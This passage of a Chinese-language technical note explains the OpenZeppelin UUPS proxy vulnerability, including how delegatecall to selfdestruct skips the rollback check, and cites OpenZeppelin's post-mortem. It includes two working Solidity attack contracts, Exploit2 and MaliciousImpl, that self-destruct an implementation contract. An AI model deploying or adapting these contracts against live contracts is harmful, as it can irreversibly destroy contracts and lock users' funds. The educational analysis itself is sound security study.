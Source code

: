 		contract Exploit2 {
		    
		    function hack() public {
		         bytes32  _ROLLBACK_SLOT = 0x4910fdfa16fed3260ed0e7147f7cc6da11a60208b5b9406d12a635614ffd9143;
		         StorageSlotUpgradeable.BooleanSlot storage rollbackTesting = StorageSlotUpgradeable.getBooleanSlot(_ROLLBACK_SLOT);
		         
		         //避免回滚测试
		         rollbackTesting.value = true;
		         selfdestruct(payable(tx.origin));
		         
		    }
		    function _authorizeUpgrade(address newImplementation) internal  {
		        
		    }
		}
- 回滚问题

	那么在 openzeppelin 的 UUPS 实现中，使用 `delegatecall` 来进行回滚测试有什么问题呢？

	- 问题就是：	
	
			Address.functionDelegateCall(newInplementation, abi.encodeWithSigature("upgradeTo(address)",oldImplementation));
		上述代码将 `newInplementation` 地址上的 `upgradeTo` 方法代码放到当前地址来执行，如果在 `upgradeTo` 方法中，放入 `selfdestruct` 这一个 `opcode`，让合约自毁，则当前合约地址就会自毁，根本不会继续执行后面的 `require`语句：
	
			require(oldImplementation == _getImplementation());
		实现逻辑为：

			pragma solidity 0.8.0;
			contract MaliciousImpl{
				function upgradeTo(address newImplementation) external  {
					selfdestruct(address(0));
				}
			}
		上述 openzeppelin 实现的代码中，最为核心的一条是理解：
		
			当 delegatecall 到一个 selfdestruct 方法后，程序所有的代码都会被直接清空，不会继续往下执行，也就不会去执行后面的 require 判断条件。
		然而在 remix 中执行时，发现 delegatecall 之后的 require 语句还是执行了,这是不对的，需要进一步理解黄皮书中关于 `selfdestruct` 这个 `opcode` 的定义：
		
			selfdestruct: Halt execution and register account for later deletion
		
			function _functionDelegateCall(address target, bytes memory data) private returns (bytes memory) {
			    require(AddressUpgradeable.isContract(target), "Address: delegate call to non-contract");
			
			    // solhint-disable-next-line avoid-low-level-calls
			    (bool success, bytes memory returndata) = target.delegatecall(data);
			    return AddressUpgradeable.verifyCallResult(success, returndata, "Address: low-level delegate call failed");
			}
		- 当 `delegatecall` 到一个 selfdestruct 的方法时，其返回值为0，然后代码继续运行。
			- 如果此笔交易在后续的执行过程中成功，则上下文地址上的代码将会被清空。
			- 如果该笔交易在后续的执行过程中失败，则整体状态会回滚。	
		
## 参考
[uupsupgradeable-vulnerability-post-mortem](https://forum.openzeppelin.com/t/uupsupgradeable-vulnerability-post-mortem/15680)

	
